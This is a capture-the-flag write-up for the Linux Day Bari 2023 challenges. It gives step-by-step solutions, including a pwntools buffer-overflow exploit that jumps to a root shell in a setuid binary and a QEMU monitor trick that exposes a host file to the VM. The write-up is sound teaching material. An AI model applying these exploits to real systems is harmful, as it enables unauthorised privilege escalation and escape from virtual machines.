

+++
title = "Linux Day Bari 2023 CTF"
author = "Nicola Guerrera, Domingo Dirutigliano, Nicola Pace"
date = "2023-10-28"
+++



Spin up the VM and replay the challenges [here](https://github.com/Pwnzer0tt1/LDBARI-2023)!

## Challenges:
- [Shuffled in the disk (_misc_)](#shuffled-in-the-disk)
- [Password guessing (_rev_)](#password-guessing)
- [Penguinsh (_pwn_)](#penguinsh)
- [Stack root jumping (_pwn_)](#stack-root-jumping)
- [VM Escape (_misc_)](#vm-escape)
- [Tux Clicker (_rev_)](#tux-clicker)
- [ Hidden (in the) penguin (_forensics_)](#hidden-in-the-penguin)


# Shuffled in the disk
login: chall2\
empty password (just press enter)

The challenge description tells us that the flag is located on an external disk attached to the VM.\
Let's look at `/etc/fstab`, a common file in *nix systems containing descriptive information about the filesystems the system can mount.
```sh
$ cat /etc/fstab
    ....
    /dev/sda /mnt/disk ext4 noauto,ro,user,noatime 0 0
```
It looks like an external disk, `/mnt/disk`, which can be mounted ready-only by the user. 
```sh
$ # Let's mount it...
$ mount /mnt/disk
$ # Enter the directory and list its contents
$ cd /mnt/disk
$ ls
    flag_shuffled  lost+found
$ # There we go! Let's print the flag
$ cat flag_shuffled
    { 6
    j 80
    8 64
    d 98
    _ 218
    s 155
$ # As the chall description says, the flag is scrambled... Let's sort it!
$ # sort has a nice feature, it can sort on a specific coloumn by using -k n flag, where n is the coloumn we want to sort by.
$ # After sorting it, let's print it on the same line with some stream editing or awk!
$ sort -nk2 flag_shuffled | awk '{print $1}' ORS=
    LDBARI{a_really_long_flag_for_a_really_short_challenge_haha_ajko82psnslHgfhsysjkjGCkou72987asbiv85djs8u19uHbjO9Rfjq6425ydfdjwkwo87kdahs976h98std9rg5967hao7sof9786sog08d7fasotdfoanmwi_dont_worry_it_will_end_soon_TM_yeah_its_done_now_for_good}
```

# Password Guessing
login: chall3\
empty password (just press enter)

The objective is reading `/home/solve3/flag`. 

```sh
$ cat /home/solve3/flag
    cat: cant open '/home/solve3/flag': Permission denied
$ ls -l /home/solve3/flag
    -r--------    1 solve3   solve3          37 Nov  9 11:15 /home/solve3/flag
```
We can't read it since only the user solve3 has read permission on that file...

The challenge description tells us that a setuid binary is needed in order to have the privilege to read it. Let's `find` all setuid binraies.

```sh
$ find / -perm /4000 
    ....
    /usr/bin/chall3
$ # We found it! Let's run it!
$ /usr/bin/chall3
    Indovina la password !
    Inserisci: 
```
Now that we found it, it asks us for a password. Let's anaylize the binary with strings.
This will show all the hardcoded/plaintext strings present in the binary.
```sh
$ strings /usr/bin/chall3
    ....
    sudo_give_me_the_flag
    ....
$ # Looks like that's the password!
$ /usr/bin/chall3
    Indovina la password !
    Inserisci: sudo_give_me_the_flag
    Congratulazioni, hai indovinato la password!
    LDBARI{an_ex3cutable_is_just_a_file}
``` 

# Penguinsh
login: chall4\
empty password (just press enter)

The objective is reading `/home/solve4/flag`, by abusing a buffer overflow in the setuid binary `penguinsh`.

Executing `penguinsh` leaves us with a beatuiful command intepreter, with a whopping 6 commands, all _beautifully_ useless!

```
PenguinSH> help

--- HELP MENU ---

help -> show this menu
ls -> read every directory, no access control needed :)
cat -> shows a cat
penguinsay -> a cow that tells you something
sl -> Oh that's a train!
bash -> I will blame you
```

Let's look at the source code of the binary with `cat /usr/src/penguinsh/penguinsh.cpp`:
```C
// .....
typedef struct {
  char *line;
  char input[INPUT_LEN];
  uint8_t is_bash; // We hate bash bleah 0_0
} input_data;
// .....
int shell(){
  input_data in = {};
  while(true){
    memset(in.input,0, INPUT_LEN);
    in.line = readline("PenguinSH> ");
    if (in.line == NULL){
      puts("\nBye bye!");
      return EXIT_SUCCESS;
    }
    add_history(in.line);
    strcpy(in.input, in.line);
    free(in.line);
    if (in.is_bash != 0 && in.is_bash != 0xff){
      // Run the commands as solve4!
      setuid(3004);
      system(in.input);
      exit(0);
    }else{
      command_loader(in.input, INPUT_LEN);
    }
  }
  return EXIT_SUCCESS;
}
// ...
```

The line `strcpy(in.input, in.line);` leads to an unsafe memory copy: it lets the user copy arbitrary data inside the `input_data` struct and potentially overwrite `is_bash`, leading to the executing of the input data with a real shell (`system(in.input);`).

In fact, if we fill the input with more than `64` A's, the shell will execute the command and complain:
```sh
sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
```

To exploit this, we'll just put the command we want to execute as `solve4` at the beginning of the line, commenting the rest of the junk data used to overflow the buffer.

```sh
PenguinSH> cat /home/solve4/flag #AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    LDBARI{overfl0wing_su1d_p3nguins}
```

# Stack root jumping
The objective is reading `/root/flag`, by fining other vluns in `penguinsh`.

To gain root privilages, we have to use the function that sets the uid to 0 (root) and execute the shell.

The problem is that looking at that function, we see it is never called in the program...

Notes:
- Looking at the title on the website, you see the "norandmaps" kernel paramether inserted into qemu, in fact `cat /proc/sys/kernel/randomize_va_space` returns `0`: the addresses are not randomized
- In the makefile used to compile the source code, you see that stack canaries are disabled
- The is_bash flag is invalid `if == 0` or also `0xff`` (it's important because readline filters a lot of character in the input)

Now we are able to write the exploit

1. From you favourite reverse engeneering tool you can get the `bash` function address: `0x8093754`
2. Add to this value using the static base address on the machine (in this case `0x5555555000`)
3. Build your address in little endian (according to arm arch)

You can build this using pwntools on your machine adding the initial padding, the `0xff` byte to skip the `is_bash` check and finally the address.

Additionally you have to insert `\n` and `\4` (CTRL+D) to trigger the return of the main function and jump to the bash function

After this you can insert the command to execute as root, so we can read the flag!

```python
from pwn import *

bin = ELF("./penguinsh")
context.binary = bin

padding = b"A"*64
is_bash_skip = b"\xff"
additional_padding = b"A"*15
address = p64(0x5555555000+0x8093754)
end_penguin = b"\n\x04"
command = b"cat /root/flag"

payload = padding + is_bash_skip + additional_padding + address + end_penguin + command

print(f"execute this on the VM: printf {payload.__repr__()[1:]} | penguinsh")
```

Now we can just run it on the vm and...

```sh
$ printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xffAA
AAAAAAAAAAAAAT\x87^]U\x00\x00\x00\n\x04cat /root/flag' | penguinsh
PenguinSH> AAAAAAAAAT^]U
Command not found :(
PenguinSH> 
Bye bye!
LDBARI{alw4ys_dr0p_y0ur_pr1vs}
```
the command `cat /root/flag` gets executed as root and prints the flag!

# VM Escape
In this challenge we need to break free from the virtual machine confines to unveil the hidden flag in the infrastructure...\
The flag can be found in `/app/flag` inside the Docker container that spawns the VMs.

Paying close attention to the title of the web page, we can notice that `ttyd` (the program used to share a terminal session over http), is giving us full control of the `qemu-system-aarch64` command.

Qemu is started with the `-nographic` flag, which give us access to the _qemu console_
>       -nographic
>              Normally, if QEMU is compiled with graphical window
>              support, it displays output such as guest graphics,
>              guest console, and the QEMU monitor  in  a  window.
>              With this option, you can totally disable graphical
>              output so that QEMU is a simple command line appli‐
>              cation.   The emulated serial port is redirected on
>              the console and  muxed  with  the  monitor  (unless
>              redirected  elsewhere  explicitly).  Therefore, you
>              can still use QEMU to debug a Linux kernel  with  a
>              serial  console.   Use  C-a h for help on switching
>              between the console and monitor.

Let's try pressing Control+A and then h as the qemu manual says...

```
C-a h    print this help
C-a x    exit emulator
C-a s    save disk data back to file (if -snapshot)
C-a t    toggle console timestamps
C-a b    send break (magic sysrq)
C-a c    switch between console and monitor
C-a C-a  sends C-a
```

There we go, Control+A and then c let's us access the console, let's try it
```
QEMU 7.2.5 monitor - type 'help' for more information
(qemu) 
```

Yup, this a really nice qemu feature that lets the user modify the state of the VM, and even adding/removing devices!
Let's use this to create a new drive pointing to the flag, then attach it as a usb storage device.

```
(qemu) drive_add 0 if=none,file=/app/flag,format=raw,id=disk1
OK
(qemu) device_add usb-storage,bus=ehci.0,drive=disk1
```

Nice, we added the usb drive, and if we go back to the monitor with Control+A c, we can even see a new drive appearing:
```sh
$ fdisk -l
    fdisk: can't open '/dev/sdb': Permission denied
```

Now we just need to cat this but we don't have any permission to do that. Fortunately the last challenge we solved gave us root access!

Let's edit the `command` from the last exploit to:
```python
command = b"cat /dev/sdb"
```

and execute it!

```sh
$ printf 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xffAA
AAAAAAAAAAAAAT\x87^]U\x00\x00\x00\n\x04cat /dev/sdb' | penguinsh
PenguinSH> AAAAAAAAAAAAAAAAAAAAAAAT^]U
Command not found :(
PenguinSH> 
Bye bye!
LDBARI{escape_vm_escape_everything}
```

# Tux Clicker

This is a simple cookie clicker...

Let's analyze the js code in the page: 
```javascript
// Add event listener to the tux
const tux = document.getElementById('tux');
const counter = document.getElementById('counter');
let count = 0;
let x = 10;

tux.addEventListener('click', () => {
    count++;    
    counter.textContent = count;
    tux.setAttribute('data-count', count);

    if (count % 100 === 0) {
        tux.classList.add('rotate');
    }

    var _0x4cc433=_0x370d;function _0x370d(_0x476c2d,_0x439a43){var _0x594491=_0x5944();return _0x370d=function(_0x370d6d,_0x323b4a){_0x370d6d=_0x370d6d-0xf9;var _0x384d65=_0x594491[_0x370d6d];return _0x384d65;},_0x370d(_0x476c2d,_0x439a43);}(function(_0x110d6c,_0x282762){var _0x37b781=_0x370d,_0x34694f=_0x110d6c();while(!![]){try{var _0x3c08d5=-parseInt(_0x37b781(0x101))/0x1+parseInt(_0x37b781(0xf9))/0x2+parseInt(_0x37b781(0xff))/0x3*(parseInt(_0x37b781(0xfd))/0x4)+-parseInt(_0x37b781(0xfe))/0x5+parseInt(_0x37b781(0x100))/0x6*(-parseInt(_0x37b781(0xfa))/0x7)+parseInt(_0x37b781(0xfb))/0x8+parseInt(_0x37b781(0x102))/0x9*(parseInt(_0x37b781(0x103))/0xa);if(_0x3c08d5===_0x282762)break;else _0x34694f['push'](_0x34694f['shift']());}catch(_0x9152af){_0x34694f['push'](_0x34694f['shift']());}}}(_0x5944,0x1e940),x=count<<0x4,NOT_FLAG=0x499602d2);count==0x2540be3ff&&console['log'](_0x4cc433(0xfc)+(NOT_FLAG^x)+'}');function _0x5944(){var _0x3afa69=['329790XXPOrt','242450ARvtOR','9iCjbKx','1858970rzmxcN','1538YnfvJl','7lOtVVW','980064Asciby','Ben\x20fatto:\x20ecco\x20la\x20flag\x20LDBARI{','30388CmeYVt','78300QkeMrB','51AQHgiq'];_0x5944=function(){return _0x3afa69;};return _0x5944();}

});
```

It looks like there's a lot of obfuscated code. Using a website such as [https://obf-io.deobfuscate.io/](https://obf-io.deobfuscate.io/) gives us a better look at the code:
```javascript
x = count << 0x4;
NOT_FLAG = 0x499602d2;
if (count == 0x2540be3ff) {
  console.log("Ben fatto: ecco la flag LDBARI{" + (NOT_FLAG ^ x) + '}');
}
```

You'd have to press the button `0x2540be3ff` (9999999999) times. Let's set the count to 9999999998 via the console and then press the button once!

```
Ben fatto: ecco la flag LDBARI{153632034}
```
There we go! The flag gets printed in the console.

#  Hidden in the penguin
The first few colors of the image aren't perfectly white (#FFFFFF), the least significant bit is used to encode a secret message. 

This is a commomd steganography technique called LSB.
To extract it we can use a tool such as [Cyberchef with the Extract LSB recipe](https://gchq.github.io/CyberChef/#recipe=Extract_LSB('R','G','B','','Row',0)).
